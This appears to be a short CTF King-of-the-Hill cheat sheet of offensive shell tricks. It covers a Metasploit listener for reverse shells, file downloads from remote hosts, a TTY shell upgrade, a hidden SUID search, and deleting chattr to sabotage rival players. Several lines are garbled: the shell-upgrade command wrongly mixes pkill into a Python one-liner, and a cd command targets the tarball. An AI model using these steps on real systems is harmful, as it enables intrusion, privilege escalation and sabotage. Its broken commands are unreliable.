                                                    <Tricks-For-All-Things>

# if you need (sure will) to install "chattr" on a machine here's a gift: 
https://github.com/fasc8/Chattr-for-KOTH/raw/master/chattr


# if you want to create a simple web server in python (generally to download or install something from machine to machine): 
python3 -m http.server <port>

# if you need to see open ports:
netstat -anpt

# Download files using php:
php -r "copy('https://endereco.com/arquivo.txt','nome_do_arquivo_na_maquina.txt');"

# receive connections by metasploit:
use exploit/multi/handler
set PAYLOAD generic/shell_reverse_tcp
set LHOST 127.0.0.1
set LPORT 8080
set ExitOnSession false
exploit -j

# if you need to install python without root:
wget https://www.python.org/ftp/python/3.9.9/Python-3.9.9.tgz

tar -zxvf Python-3.9.9.tgz
cd Python-3.9.9.tgz
mkdir ~/.localpython
./configure --prefix=/home/$(whoami)/.localpython
make;make install

# a fully tty shell:
python3 -c"pkill -9 -t pts/ 'import pty;pty.spawn("/bin/bash")'

"ctrl + z"

stty raw -echo && fg

aperte "enter" novamente

export TERM=xterm-256color

# Search Suid's:
find / -perm -u=s -ls 2>/dev/null > /tmp/.find &

# delete chattr:
rm -rf /usr/bin/chattr
  
# ---END---
